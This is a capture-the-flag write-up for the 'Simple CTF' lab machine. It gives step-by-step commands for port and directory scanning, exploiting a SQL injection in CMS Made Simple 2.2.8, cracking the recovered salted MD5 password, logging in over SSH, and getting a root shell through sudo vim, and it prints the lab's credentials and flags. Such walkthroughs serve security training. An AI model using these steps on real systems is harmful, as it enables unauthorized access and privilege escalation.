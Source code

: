 # Simple CTF

--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster, hashcat, exploitdb

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.145.85

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-sC: script scan<br>
-sV: probe open ports to determine service/version info<br>
-oN OUTPUT_FILE: output results to given filename<br>
```
nmap -sC -sV -oN nmap.txt 10.10.145.85
```

![1.1](./imgs/1.1.png)

**EXPOSED PORT (SERVICE)**:<br>
    21 (ftp vsftpd 3.0.3),<br>
    80 (http Apache httpd 2.14.18),<br>
    2222 (ssh OpenSSH 7.2p2)

Anonymous login to ftp server is allowed

Vulnerability scan with nmap
```
nmap --script vuln 10.10.145.85
```

![1.5](./imgs/1.5.png)

Enumerate hidden directories on webserver
```
gobuster dir -u http://10.10.145.85 -w /usr/share/dirb/wordlists/common.txt
```

![1.2](./imgs/1.2.png)

Pages of Interest: /robots.txt, /simple

robots.txt has disallow entry /openemr-5_0_1_3

![1.3](./imgs/1.3.png)

/openemr-5_0_1_3 gives 404 error

/simple is a website that uses CMS Made Simple v 2.2.8

![1.4](./imgs/1.4.png)

### 2. FTP LOGIN

Anonymously login to ftp
```
ftp anonymous@10.10.145.85
```
cannot get file named pub from ftp server

### 3. EXPLOIT

Query ExploitDB for exploits
```
searchsploit cms made simple
```

![3.1](./imgs/3.1.png)

CMS Made Simple 2.2.8 is vulnerable to SQLi (CVE-2019-9053) through the installed news module

Use exploit
```
python3 /usr/share/exploitdb/exploits/php/webapps/46635.py -u http://10.10.145.85/simple
```

![3.2](./imgs/3.2.png)

**USERNAME**: mitch

PASSWORD SALT: 1dac0d92e9fa6bb2<br>
PASSWORD HASH: 0c01f4468bd75d7a84c7eb73846e8d96$  

Password cracking failed so will have to manually crack the password with hashcat
```
echo "0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2" > hash
hashid hash
```

![3.3](./imgs/3.3.png)

Hash type could be md5

-a ATTACK_MODE (0 = straight)<br>
-m HASH_TYPE (20 = md5(\$salt.\$pass))
```
hashcat -a0 -m20 hash /usr/share/wordlists/rockyou.txt
```

![3.4](./imgs/3.4.png)

**PASSWORD**: secret

### 4. SSH LOGIN

Log into SSH with found credentials
```
ssh mitch@10.10.145.85 -p2222
```
![4.1](./imgs/4.1.png)

**USER FLAG**: G00d j0b, keep up!

Check privileges
```
sudo -l
```

![4.2](./imgs/4.2.png)

Can run vim as root

### 5. PRIVILEGE ESCALATION

From https://gtfobins.github.io/gtfobins/vim/#sudo
```
sudo vim -c ':!/bin/sh'
```

![5.1](./imgs/5.1.png)

**ROOT FLAG**: W3ll d0n3. You made it!